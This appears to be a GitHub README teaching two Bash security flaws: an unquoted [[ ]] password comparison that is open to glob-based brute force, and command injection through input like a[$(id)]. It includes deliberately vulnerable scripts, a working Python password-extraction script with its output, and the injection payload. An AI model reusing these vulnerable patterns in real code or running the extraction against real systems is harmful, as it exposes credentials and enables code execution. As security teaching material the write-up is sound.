 # BASH VULNERABILITIES

## 📜 PoC1 - Variable Comparison Vulnerability

```bash
#!/bin/bash
DB_USER="root"
DB_PASS="$(/usr/bin/cat /home/root/cred.txt)"

read -s -p "Enter password for $DB_USER: " USER_PASS
echo

if [[ $DB_PASS == $USER_PASS ]]; then
        echo "Password confirmed!"
else
        echo "Password confirmation failed!"
fi
```

The vulnerability here lies in the issue of variable comparison.

The correct way would be this: `"$var"` ✅

Instead of this: `$var` 🚫

### Exploit Vulnerability:

This vulnerability allows us to discover the password through brute force.

In this case, cred.txt contains the password k4l1L1nUx.

The program will interpret `[[ $DB_PASS == k4l1L1nUx ]]` the same as `[[ $DB_PASS == k* ]]`.

So through testing, we would discover the password. To automate it, we will use a Python script.

```python
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
file = str(input("File name: "))
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | ./{file}"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            # Remove the comment if you want me to show you the process of how it is finding the password.
            # print(password) 
            break
    else:
        found = True
        print("The password is: ", password)
```
The result upon executing the script:
```
kali@kali:~$ python3 script.py 
File name: bash_vuln
k
k4
k4l
k4l1
k4l1L
k4l1L1
k4l1L1n
k4l1L1nU
k4l1L1nUx
The password is:  k4l1L1nUx
```

---

## 📜 PoC2 - Command Injection

This is a simple script that takes an input from the user and compares it with a random number. If the user enters something like `a[$(id)]`, the id command gets executed due to Bash's expansion.

```bash
#!/bin/bash

# Generate a random number between 0 and 999
a=$((RANDOM % 1000))

# Prompt the user to enter a number
echo "Please input [$a]"
read -p "Enter number: " input_number

# Check if the entered number matches the generated one
if [[ $input_number -ne "$a" ]]; then
    echo "Incorrect number!"
    exit
else
    echo "Correct number!"
fi
```
### ⚠️ Explanation of the Vulnerability:

**Random Number Generation**: The script generates a random number and displays it as the one the user should enter.

**Command Injection**: The issue is that the input is not validated. If the user enters something like `a[$(id)]`, the id command gets executed because Bash interprets it within `[[ ... ]]` as command substitution.

### 💻 Injection Test:

If we run the script:

```bash
./vuln.sh
```
Let’s say the random number generated is **853**. The script will prompt you to enter the correct number.

Malicious Input 👾: If the attacker enters `a[$(id)]`:

    Enter number: a[$(id)]

Result: The command `id` gets executed 👨‍💻, showing information about the current user. Something like:

    Correct number!
    uid=1000(user) gid=1000(user) groups=1000(user)

📝 Conclusion:

This vulnerability occurs because the script allows command substitution inside `[[ ... ]]` without any input validation. This can lead to arbitrary code execution if an attacker provides a manipulated input containing a command substitution.
